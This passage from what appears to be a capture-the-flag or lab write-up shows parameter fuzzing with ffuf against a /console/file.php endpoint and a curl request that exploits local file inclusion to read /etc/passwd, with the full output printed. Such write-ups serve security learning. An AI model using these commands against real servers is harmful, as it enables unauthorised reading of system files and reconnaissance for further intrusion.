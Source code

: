`/console` is interesting. Visiting this endpoint redirects to a directory that lists a single file: `file.php`. Although the file is not empty, nothing happens if I load it.
The name is suspicious and suggest LFI. To check the file parameter being used, I can fuzz using `burp-parameter-names.txt` from SecLists, providing a possible value for it, like `/etc/passwd`:

```bash
$ ffuf -u http://192.168.196.80/console/file.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.196.80/console/file.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

file                    [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 43ms]
```

So I have a parameter name: `file`.
I can confirm that there is LFI here:

```bash
$ curl -s http://192.168.196.80/console/file.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```